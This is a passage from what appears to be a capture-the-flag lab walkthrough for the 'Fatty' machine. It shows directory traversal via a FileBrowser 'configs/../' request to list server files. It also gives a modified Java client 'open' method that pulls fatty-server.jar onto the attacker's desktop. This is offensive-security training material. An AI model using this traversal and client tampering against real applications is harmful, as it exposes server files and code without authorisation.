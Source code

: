 Let's log in to the application and navigate to `FileBrowser` -> `Config` option.

<figure><img src="../../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

This is successful. We can now see the content of the directory `configs/../`. The files `fatty-server.jar` and `start.sh` look interesting. Listing the content of the `start.sh` file reveals that `fatty-server.jar` is running inside an Alpine Docker container.

<figure><img src="../../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

We can modify the `open` function in `fatty-client-new.jar.src/htb/fatty/client/methods/Invoker.java` to download the file `fatty-server.jar` as follows.

```java
import java.io.FileOutputStream;
<SNIP>
public String open(String foldername, String filename) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {}).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user)) {
        return "Error: Method '" + methodName + "' is not allowed for this user account";
    }
    this.action = new ActionMessage(this.sessionID, "open");
    this.action.addArgument(foldername);
    this.action.addArgument(filename);
    sendAndRecv();
    String desktopPath = System.getProperty("user.home") + "\\Desktop\\fatty-server.jar";
    FileOutputStream fos = new FileOutputStream(desktopPath);
    
    if (this.response.hasError()) {
        return "Error: Your action caused an error on the application server!";
    }
    
    byte[] content = this.response.getContent();
    fos.write(content);
    fos.close();
    
    return "Successfully saved the file to " + desktopPath;
}
<SNIP>
```
